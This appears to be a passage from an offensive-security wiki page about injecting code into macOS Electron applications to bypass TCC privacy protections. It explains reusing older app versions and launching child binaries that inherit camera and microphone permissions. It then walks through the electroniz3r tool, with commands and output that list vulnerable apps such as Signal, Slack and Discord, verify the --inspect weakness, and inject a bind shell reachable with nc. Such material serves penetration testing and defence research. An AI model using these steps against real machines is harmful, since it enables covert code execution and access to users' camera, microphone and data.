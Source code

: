 ## TCC Bypass abusing Older Versions

{% hint style="success" %}
The TCC daemon from macOS doesn't check the executed version of the application. So if you **cannot inject code in an Electron application** with any of the previous techniques you could download a previous version of the APP and inject code on it as it will still get the TCC privileges (unless Trust Cache prevents it).
{% endhint %}

## Run non JS Code

The previous techniques will allow you to run **JS code inside the process of the electron application**. However, remember that the **child processes run under the same sandbox profile** as the parent application and **inherit their TCC permissions**.\
Therefore, if you want to abuse entitlements to access the camera or microphone for example, you could just **run another binary from the process**.

## Automatic Injection

The tool [**electroniz3r**](https://github.com/r3ggi/electroniz3r) can be easily used to **find vulnerable electron applications** installed and inject code on them. This tool will try to use the **`--inspect`** technique:

You need to compile it yourself and can use it like this:

```bash
# Find electron apps
./electroniz3r list-apps

╔══════════════════════════════════════════════════════════════════════════════════════════════════════╗
║    Bundle identifier                      │       Path                                               ║
╚──────────────────────────────────────────────────────────────────────────────────────────────────────╝
com.microsoft.VSCode                         /Applications/Visual Studio Code.app
org.whispersystems.signal-desktop            /Applications/Signal.app
org.openvpn.client.app                       /Applications/OpenVPN Connect/OpenVPN Connect.app
com.neo4j.neo4j-desktop                      /Applications/Neo4j Desktop.app
com.electron.dockerdesktop                   /Applications/Docker.app/Contents/MacOS/Docker Desktop.app
org.openvpn.client.app                       /Applications/OpenVPN Connect/OpenVPN Connect.app
com.github.GitHubClient                      /Applications/GitHub Desktop.app
com.ledger.live                              /Applications/Ledger Live.app
com.postmanlabs.mac                          /Applications/Postman.app
com.tinyspeck.slackmacgap                    /Applications/Slack.app
com.hnc.Discord                              /Applications/Discord.app

# Check if an app has vulenrable fuses vulenrable
## It will check it by launching the app with the param "--inspect" and checking if the port opens
/electroniz3r verify "/Applications/Discord.app"

/Applications/Discord.app started the debug WebSocket server
The application is vulnerable!
You can now kill the app using `kill -9 57739`

# Get a shell inside discord
## For more precompiled-scripts check the code
./electroniz3r inject "/Applications/Discord.app" --predefined-script bindShell

/Applications/Discord.app started the debug WebSocket server
The webSocketDebuggerUrl is: ws://127.0.0.1:13337/8e0410f0-00e8-4e0e-92e4-58984daf37e5
Shell binding requested. Check `nc 127.0.0.1 12345`
```
